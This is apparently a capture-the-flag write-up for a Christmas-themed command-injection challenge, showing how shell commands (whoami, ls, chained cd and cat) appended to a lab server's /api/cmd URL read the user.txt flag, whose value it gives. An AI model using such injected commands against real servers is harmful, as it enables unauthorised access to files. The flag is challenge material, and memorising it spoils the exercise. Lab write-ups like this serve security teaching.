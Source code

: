 ##Introduction##

> Another day, another hack from the Christmas Monster. Can you get back control of the system?

> Access the web server on http://[your-ip]:3000/

> McSkidy actually found something interesting on the /api/cmd endpoint.

> Check out the supporting material here. _(see Christmas Command Injection.pdf)_

##Question 1##

> What are the contents of the user.txt file?

td:lr Answer: **5W7WkjxBWwhe3RNsWJ3Q**

=============================================================================================

On the webpage, it is just an empty page with the text "christmas monster was here"

we were given in the intro that there is something interesting on /api/cmd.

Navigating to http://[ip]:3000/api/cmd, we will see error "Cannot GET /api/cmd/"
However, as the supporting doc implies, there might be command injection available here

we can try by inserting whoami:
`http://[ip]:3000/api/cmd/whoami`

straightaway we can see a json return of 'root\n', which means our command injection works successfully
So now we need to find the right information by enumerating and finding the right file:

`http://[ip]:3000/api/cmd/ls -la`
`http://[ip]:3000/api/cmd/cd home&&ls -la`
`http://[ip]:3000/api/cmd/cd home&&cd bestadmin&&ls -la`
!(./pic3.png)

in the directory home/bestadmin/ we will find the user.txt file. Hence the below will give us the answer.
`http://[ip]:3000/api/cmd/cd%20home&&cd%20bestadmin&&cat%20user.txt`

